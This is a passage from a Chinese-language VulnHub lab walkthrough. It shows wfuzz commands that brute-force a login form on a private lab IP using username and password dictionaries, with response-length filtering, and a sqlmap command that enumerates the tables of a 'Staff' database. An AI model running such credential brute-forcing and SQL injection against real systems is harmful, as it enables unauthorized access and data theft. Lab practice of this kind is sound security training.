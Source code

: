 ```
将user名和password分别存到自定义的user_dict和pass_dict文件中。然后使用wfuzz来
wfuzz -z file,user_dict -z file,pass_dict -d "username=FUZZ&password=FUZ2Z" http://192.168.15.136/manage.php
其中参数-d：指定要发送的HTTP请求体
```

![image-20241206204330954](vulnhub靶场实战/image-20241206204330954.png)	

```
由于结果太多使用-hw进行爆破内容的过滤。过滤响应包为93个单词的内容,发现为空，说明没有一个匹配上的。
wfuzz -z file,user_dict -z file,pass_dict --hw 93 "http://192.168.15.136/manage.php?username=FUZZ&password=FUZ2Z"
```

![image-20241206204918223](vulnhub靶场实战/image-20241206204918223.png)	

```
于是在使用sqlmap查看另外一个staff数据库
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D Staff --tables
```
